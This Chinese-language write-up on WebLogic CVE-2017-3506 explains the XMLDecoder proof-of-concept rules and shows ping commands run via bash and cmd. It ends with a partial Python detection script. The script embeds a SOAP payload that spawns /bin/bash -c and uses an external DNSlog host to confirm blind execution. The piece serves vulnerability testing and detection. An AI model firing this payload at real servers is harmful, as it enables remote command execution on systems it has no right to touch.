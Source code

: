 **经过测试，PoC基本有以下关键点**：

1. 命令以空格分开，每一部分占一个数组元素，（上一个例子里“touch /tmp/123”是一个参数，算作一个数组元素；比如我们直接只使用一个元素 touch /tmp/123就不会成功）；
2. 数组的长度必须和实际相匹配，比如上图就只能是3，不能多也不能少。

实验截图如下：

命令/bin/bash -c "touch /tmp/123" 的

![success](img/weblogic_CVE_2017_3506/success.png)



![space_command](img/weblogic_CVE_2017_3506/space_command.png)



![space_command](img/weblogic_CVE_2017_3506/space_false.png)

### 0x3、自动检测脚本

上面的PoC是在本地生成文件，需要登录系统查看，而且需要依赖burp发包。我想更进一步，试试写个自动化检测脚本。大概弄清除了PoC的一些关键点后，可以尝试修改命令来构造检测脚本了。我们这里使用自己搭建的DNSlog来检查无回显的命令执行（如果单纯http请求而不是DNS请求，可以试试https://requestb.in/）。

payload中的命令分别为：

```
C:\Windows\System32\cmd.exe /c "ping -n 3 test.com || ping -c 3 test.com"

/bin/bash -c "ping -n 3 test.com || ping -c 3 test.com"
```

完整的检测脚本如下：

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

import requests
import sys
import urlparse

dnslog_address= "test.0y0.link"

heads = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
    'Content-Type': 'text/xml;charset=UTF-8',
    }
linux_poc =r'''
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.8.0_131" class="java.beans.XMLDecoder">
          <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="3">
              <void index="0">
                <string>/bin/bash</string>
              </void>
              <void index="1">
                <string>-c</string>
              </void>
              <void index="2">
                <string>{0}</string>
              </void>
            </array>
```